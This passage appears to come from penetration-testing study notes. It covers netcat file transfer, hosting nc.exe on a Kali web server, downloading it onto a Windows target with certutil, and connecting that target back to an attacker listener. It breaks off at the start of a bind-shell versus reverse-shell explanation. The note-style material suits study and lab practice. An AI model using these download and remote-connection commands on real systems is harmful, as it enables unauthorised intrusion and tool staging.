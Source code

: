 Save received data on listener (Windows example, receiving into `test.txt`):

```bash
# On the receiving/listener machine (Windows)
nc.exe -nvlp 1234 > test.txt

# On the sender (Linux)
nc <receiver_ip> 1234 < test.txt
```

---

## Transfer nc.exe to Windows (practical)

Linux directory with Windows binaries:

```
ls -al /usr/share/windows-binaries/
# find nc.exe
```

Host `nc.exe` with a simple webserver:

```bash
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 8080    # or: python3 -m http.server 8080
```

On Windows (download via certutil):

```powershell
certutil -urlcache -f http://<kali-ip>:8080/nc.exe nc.exe
# test
nc.exe -h
```

Then connect from target Windows to your Kali listener:

```bash
# Kali listener
nc -nvlp 1234

# On Windows target
nc.exe <kali_ip> 1234
```

---

# Bind Shells vs Reverse Shells

## Bind shell

* The target opens a listener and **attacker connects directly**.
* Useful when inbound connections to the target are allowed.
* Example (Windows target opens bind shell):

